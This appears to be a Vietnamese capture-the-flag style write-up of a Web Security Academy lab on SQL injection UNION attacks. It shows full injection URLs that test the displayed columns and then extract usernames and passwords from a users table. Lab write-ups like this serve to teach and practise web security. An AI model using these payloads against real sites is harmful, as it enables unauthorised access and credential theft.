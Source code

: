 ## SQL injection UNION attack, retrieving data from other tables

Ở đây chúng ta đã biết có 2 column như trong như phần description của lab có bảo là sử dụng table là **users** và có 2 trường là **username** và **password**, chúng ta sẽ select bừa các trường giá trị nào đó test thử xem web sẽ load như nào.

> Ví dụ: https://acd51f7e1f13167e80c95424009300ec.web-security-academy.net/filter?+category=Corporate+gifts%27+UNION+SELECT+%27abc%27,%27def%27--

(Chúng ta sẽ thấy 2 trường mà chúng ta select có xuất hiện thêm ở trên list category, chứng tỏ lỗi hiển thị sẽ nằm ở đây)

![](imgs/6.png?raw=true)

Ok web load ổn, chúng ta sẽ tiến hành select username và password từ bảng **users**

https://acd51f7e1f13167e80c95424009300ec.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+username,password+FROM+users--

![](imgs/7.png?raw=true)

Chúng ta sẽ thu được 3 user là wiener, admin và carlos.
Vào phần My Account và Login vào sẽ solve lab.

![](imgs/8.png?raw=true)

